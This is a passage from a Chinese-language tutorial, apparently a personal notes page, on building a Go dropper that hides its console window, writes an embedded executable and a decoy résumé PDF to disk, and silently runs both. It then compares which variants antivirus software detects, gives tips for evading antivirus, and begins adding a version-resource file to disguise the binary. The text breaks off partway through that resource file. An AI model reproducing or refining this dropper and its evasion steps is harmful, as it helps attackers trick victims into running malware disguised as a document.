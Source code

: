 ```html
	_ "embed"
	"fmt"
	"io/ioutil"
	"os"
	"os/exec"
	"syscall"
	"github.com/lxn/win"
)

//go:embed 1.exe
var b []byte
//go:embed 2.pdf
var c []byte
func main(){
	win.ShowWindow(win.GetConsoleWindow(), win.SW_HIDE)
	dir,_ := os.Getwd()
	path :=[]string{"C:\\Users\\calc.exe",dir+"\\王小明_管理部门简历.pdf"}
	happy(path[0],b)
	happy(path[1],c)

}
func happy(path string,bytes []byte) {
	err := ioutil.WriteFile(path, bytes, 0666)
	if err == nil{
		Go := exec.Command("cmd","/c ",path)
		Go.SysProcAttr = &syscall.SysProcAttr{HideWindow: true} //hide the cmd
		err := Go.Run()
		if err != nil {
			fmt.Println(err)
		}
		fmt.Println(path)
	}
}
```
<a name="B27nB"></a>
## 去除黑框，规避杀软
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647260469231-a490663e-5248-4874-8871-c79834201d93.png#clientId=u53c64f15-5c32-4&from=paste&height=329&id=ude0ea7ae&originHeight=658&originWidth=880&originalType=binary&ratio=1&rotation=0&showTitle=false&size=189950&status=done&style=none&taskId=u386748e3-acfb-42d2-a31d-27ec75130ef&title=&width=440)

calc + pdf + 无图标 + 隐藏黑框 =安全<br />calc + pdf + 有图标 + 隐藏黑框 = 杀

```java
去掉 -H=windowsgui
然后试试在代码里面实现隐藏

import "github.com/lxn/win"

//隐藏cmd窗口
win.ShowWindow(win.GetConsoleWindow(), win.SW_HIDE)
```
<a name="ZWzdo"></a>
## 生成图标
demo.rc内容
```java

1 VERSIONINFO
FILEVERSION 1,0,0,0
PRODUCTVERSION 1,0,0,0
FILEOS 0x40004
FILETYPE 0x1
{
BLOCK "StringFileInfo"
{
```